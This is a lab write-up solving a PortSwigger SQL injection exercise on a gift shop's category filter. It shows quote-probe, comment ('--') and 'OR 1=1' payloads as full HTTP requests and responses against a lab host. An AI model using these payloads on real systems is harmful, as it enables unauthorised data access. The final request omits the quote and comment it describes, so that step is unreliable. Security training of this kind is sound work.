

# Lab Description
## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

To solve the lab, perform an SQL injection attack that causes the application to display details of **all products in any category, both released and unreleased**.

# Lab Solution

The lab environment is straightforward. As displayed in the picture below, we are presented with a simple gift shop application. The application allows us to choose which category of gifts we want to decide to narrow down the search.


The highlighted section indicates a potentially vulnerable URI with the category variable `filter?category=Tech+gifts`



According to the [OWASP attack description](https://owasp.org/www-community/attacks/SQL_Injection)[^1], an SQL injection attack occurs when:

1. An unintended data enters a program from an untrusted source.
2. The data is used to dynamically construct a SQL query

To test for the possibility we are going to introduce a single quote character after `Gift`, effectively modified our HTTP request to look like this:

`SELECT * FROM products WHERE category = 'Gifts'' AND released = 1`

Since single quotes indicate the beginning and end of a string in SQL, in this case, if the SQL query is dynamically constructed, it should produce an error.

We captured the HTTP request and send to [Burp Suite Repeater](https://portswigger.net/burp/documentation/desktop/tools/repeater/using)[^2]


**Modified HTTP request**
```
GET /filter?category=Tech+gifts' HTTP/1.1
Host: <redacted>.web-security-academy.net
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

**HTTP response**
```
HTTP/1.1 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 2554
```

While testing for SQL injection vulnerabilities or attempting to take over a query, we may face different [HTTP status codes](https://www.sqlinjection.net/http-errors/)[^3]. The HTTP status code 500 is a generic error response displayed when the server encounters an unexpected condition that prevents it from fulfilling the request. The server usually returns this error when no other error code is suitable. However, while testing, if we get a 500 error page back, chances are that injection is occurring [^4].

To solve the lab assignment, we need to modify a query so it fulfills two conditions
1. display all products in any category,
2. display released and unreleased products.

We can start solving the second part, which is easier, by modifying the query by adding `--` characters:

`SELECT * FROM products WHERE category = 'Gifts'-- ' AND released = 1`

In this HTTP request, everything after `--` is rendered as a comment and, therefore, not the condition that only released products should be displayed is interpreted.

Bellow, we can see the new modified HTTP request from Repeater and OK HTTP response, meaning that the web page understood our HTTP request and is sending the page in return.

**Modified HTTP request 2**
```
GET /filter?category=Tech+gifts'-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 2**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5156
```

After submitting a new HTTP request, we can see that the page's content changed, and we see a new gift compared to the previous picture, which indicates that we got rid of the released condition.


**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts or 1=1-- HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```

As a last step, we need to cause the application to display all the products in any category, including those we do not know about. To do this, we will introduce a Boolean logic. [Boolean-based SQL Injection](https://www.acunetix.com/websitesecurity/sql-injection2/)[^5] is technique that relies on sending an SQL query, which forces the application to return a different result depending on whether the query returns a TRUE or FALSE result.

We modify our query by using the `OR` conditional statement and condition, which always will return true, such as 1=1.

`SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- ' AND released = 1`


Before sending the modified HTTP request, we need to URL encode the characters. Otherwise, the server sends an `HTTP/1.1 400 Bad Request` response.

**Modified HTTP request 3**
```
GET /filter?category=Tech+gifts+or+1%3d1 HTTP/1.1
Host: <redacted>.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
```
**HTTP response 3**
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Connection: close
Content-Length: 5361
```


Thank you for reading and see you in the next lab!


[^1]: https://owasp.org/www-community/attacks/SQL_Injection)
[^2]: https://portswigger.net/burp/documentation/desktop/tools/repeater/using
[^3]: https://www.sqlinjection.net/http-errors/)
[^4]: https://www.risco.org.br/recursos/WhitepaperSQLInjection.pdf
[^5]: https://www.acunetix.com/websitesecurity/sql-injection2/
